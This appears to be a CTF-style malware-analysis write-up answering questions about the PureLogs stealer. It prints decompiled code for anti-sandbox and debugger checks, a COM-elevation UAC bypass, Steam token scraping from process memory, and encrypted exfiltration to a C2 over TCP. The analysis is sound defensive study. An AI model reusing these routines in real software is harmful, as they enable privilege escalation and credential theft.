

## 1. PureLogs is obfuscated and packed to hinder static analysis. Which commercial .NET packer is used to protect the PureLogs binary?
- use die, we know that .net reactor was used for obfucating asm


**.NET Reactor**

## 2. What is the name of the mutex created by PureLogs?
- use [NetReactorSlayer](https://github.com/SychicBoy/NETReactorSlayer/releases/tag/v6.4.0.0) to deobfucate the exe, we have new file, then open it in ida pro

```bash
public static bool create_mutex()
		{
			bool result;
			Main_cls.mutex_0 = new Mutex(false, GClass4.string_3, ref result);
			return result;
		}
```
```bash
public static string string_3 = "FQBnanyetMxSRRO";
```
- refer to string_3, we have the mutext name

**FQBnanyetMxSRRO**

## 3. PureLogs includes several anti-analysis checks before proceeding with execution. One of them specifically targets a well-known sandboxing tool. What process name does PureLogs check for to detect this sandbox?
- There is a anti sanbox check class (renamed by me)
```bash
public static bool antisanbox_check_sbisanbox()
		{
			return Process.GetProcessesByName("SbieCtrl").Length != 0 & antisanbox_cls.GetModuleHandle("SbieDll.dll") != IntPtr.Zero;
		}
```
- malware check for sbiectrl.exe (a core part of Sandboxie control)

**SbieCtrl.exe**

## 4. PureLogs avoids external analysis by querying a debugger-related state via a process handle. What Windows API function is used for this check?
- they also check for remote debugger by using `CheckRemoteDebuggerPresent`
```bash
[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
		public static extern bool CheckRemoteDebuggerPresent(IntPtr intptr_0, ref bool bool_0);

		// Token: 0x06000026 RID: 38
		private static bool antisanbox_check_debugger()
		{
			bool result;
			try
			{
				bool flag = false;
				antisanbox_cls.CheckRemoteDebuggerPresent(Process.GetCurrentProcess().Handle, ref flag);
				result = flag;
			}
			catch
			{
				result = false;
			}
			return result;
		}
```

**CheckRemoteDebuggerPresent**

## 5. PureLogs checks a specific registry key to know if it has already run on the system before. What is the full path of that registry key?
```bash
if (Convert.ToBoolean(GClass4.string_18))
			{
				if (Registry.CurrentUser.OpenSubKey("Software", true).OpenSubKey(GClass4.string_19, true) != null)
				{
					Environment.Exit(0);
					return;
				}
				flag = true;
```
```bash
public static string string_19 = "IqswyHgVpagFHxu";
```

**IqswyHgVpagFHxu**

## 6. PureLogs modifies its process name and command-line to appear as a legitimate Windows process. What process name does it use to masquerade as a trusted system process?
```bash
if (!Main_cls.get_identity())
			{
				Class12.smethod_4("C:\\Windows\\explorer.exe");
				Main_cls.COM_UAC_bypass();
				Environment.Exit(0);
			}
```

**explorer.exe**

## 7. What WMI class does PureLogs query to retrieve the system’s manufacturer and model?
```bash
List<string> list = new List<string>();
	try
	{
		ManagementObject managementObject = new ManagementObjectSearcher("root\\CIMV2", "SELECT * FROM Win32_ComputerSystem").Get().OfType<ManagementObject>().Where(new Func<ManagementObject, bool>(antisanbox_cls.<>c.<>c_0.method_0)).FirstOrDefault<ManagementObject>();
		List<string> list2 = list;
		object obj = managementObject["Manufacturer"];
		list2.Add((obj != null) ? obj.ToString().ToLower() : null);
		List<string> list3 = list;
		object obj2 = managementObject["Model"];
		list3.Add((obj2 != null) ? obj2.ToString().ToLower() : null);
	}
	catch
	{
	}
	return list;
```

**Win32_ComputerSystem**

## 8. PureLogs uses a trick to bypass the "Run as Administrator" (UAC) prompt by starting a special COM object. What exact string does it add before the COM CLSID to request an elevated instance?
```bash
public static object com_obj_bypass_UAC(Guid guid_0, Guid guid_1)
		{
			string str = guid_0.ToString("B");
			string string_ = "Elevation:Administrator!new:" + str;
			Main_cls.Struct9 structure = default(Main_cls.Struct9);
			structure.uint_0 = (uint)Marshal.SizeOf<Main_cls.Struct9>(structure);
			structure.intptr_0 = IntPtr.Zero;
			structure.uint_5 = 4U;
			return Main_cls.CoGetObject(string_, ref structure, guid_1);
		}
```
- `Elevation:Administrator!new:{CLSID}` means: This is a `COM moniker` format that tells Windows to launch a `COM object ({CLSID})` with `administrator` privileges using `auto-elevation` if available, without a UAC prompt, if conditions allow
- `{3E5FC7F9-9A51-4367-9063-A120244FBEC7} → ShellExecute`

**Elevation:Administrator!new:**

## 9. PureLogs uses COM objects to silently bypass User Account Control (UAC) and relaunch itself with elevated privileges. What ATT&CK technique does this behavior map to?
- as malware use UAC bypass, then it maps to [T1548.002](https://attack.mitre.org/techniques/T1548/002/)

**T1548.002**

## 10. What regex pattern does PureLogs use to find Steam session tokens?
```bash
Process process = Process.GetProcessesByName("steam").FirstOrDefault<Process>();
				if (process != null)
				{
					IntPtr intPtr = stealapp_cls.OpenProcess(16, false, process.Id);
					if (!(intPtr == IntPtr.Zero))
					{
						using (stealapp_cls.Class6 @class = new stealapp_cls.Class6(intPtr))
						{
							IntPtr intPtr2 = IntPtr.Zero;
							IntPtr intPtr3 = new IntPtr(int.MaxValue);
							byte[] array = new byte[4096];
							Regex regex = new Regex("[A-Za-z0-9-_]{16,}\\.[A-Za-z0-9-_]{40,}\\.[A-Za-z0-9-_]{40,}");
							while (intPtr2.ToInt64() < intPtr3.ToInt64())
							{
								int count;
								if (stealapp_cls.ReadProcessMemory(@class.Handle, intPtr2, array, array.Length, out count))
								{
									string @string = Encoding.ASCII.GetString(array, 0, count);
									Match match = regex.Match(@string);
									if (match.Success)
									{
										stealapp_cls.byte_2 = Encoding.UTF8.GetBytes(match.Value);
										break;
									}
								}
								intPtr2 = IntPtr.Add(intPtr2, array.Length);
							}
						}
					}
```

**[A-Za-z0-9-_]{16,}\\.[A-Za-z0-9-_]{40,}\\.[A-Za-z0-9-_]{40,}**

## 11. PureLogs adds a unique tag to the stolen data before sending it to the attacker. What is the exact string it adds to identify this specific build of the malware?
```bash
try
			{
				Main_cls.dictionary_0.Add("Group", GClass4.string_17);
			}
			catch
```
```bash
public static string string_17 = "test120922139213";
```

**test120922139213**

## 12. What port number does PureLogs use to communicate with its Command and Control (C2) server?
```bash
while (i <= 5)
			{
				try
				{
					using (TcpClient tcpClient = new TcpClient(GClass4.string_15, Convert.ToInt32(GClass4.string_16)))
					{
						using (NetworkStream stream = tcpClient.GetStream())
						{
							stream.Write(BitConverter.GetBytes(array2.Length), 0, 4);
							stream.Write(array2, 0, array2.Length);
							break;
						}
					}
				}
				catch
				{
					i++;
					Thread.Sleep(1000);
				}
			}
```
- tcpclient create connection using port `GClass4.string_16`
```bash
public static string string_16 = "6561";
```

**6561**

## 13.What mode of AES does PureLogs use to encrypt stolen data?
- it use CBC mode
```bash
rijndaelManaged.Mode = CipherMode.CBC;
```

**CBC**

## 14. What is the length (in bytes) of the derived Initialization Vector (IV) used in the encryption?
- because it's eas-cbc mode then the IV should be 16 bytes, also the code show block size is 128 bit (16 bytes), then IV is calculated by 128/8 = 16
```bash
rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes((int)((double)rijndaelManaged.BlockSize / 8.0));
```

**16**

## 15. What algorithm is used to derive the AES key and IV from the SHA-512 hash in PureLogs?
```bash
using (MemoryStream memoryStream = new MemoryStream())
			{
				using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
				{
					rijndaelManaged.KeySize = 256;
					rijndaelManaged.BlockSize = 128;
					Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(byte_1, salt, 1000);
					rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes((int)((double)rijndaelManaged.KeySize / 8.0));
					rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes((int)((double)rijndaelManaged.BlockSize / 8.0));
					rijndaelManaged.Mode = CipherMode.CBC;
					using (CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write))
					{
						cryptoStream.Write(byte_0, 0, byte_0.Length);
						cryptoStream.Close();
					}
					result = memoryStream.ToArray();
				}
			}
			return result;
```
- Implements password-based key derivation functionality, PBKDF2, by using a pseudo-random number generator based on HMACSHA1.([ref](https://learn.microsoft.com/en-us/dotnet/api/system.security.cryptography.rfc2898derivebytes?view=net-9.0))

**PBKDF2**

## 16. What fixed salt value is used in the PBKDF2 function in PureLogs (in hex starts as 0x)?
```bash
byte[] salt = new byte[]
			{
				117,
				45,
				158,
				253,
				184,
				172,
				96,
				158,
				239,
				125,
				30,
				70,
				145,
				225,
				3,
				161
			};
```

**0x752D9EFDB8AC609EEF7D1E4691E103A1**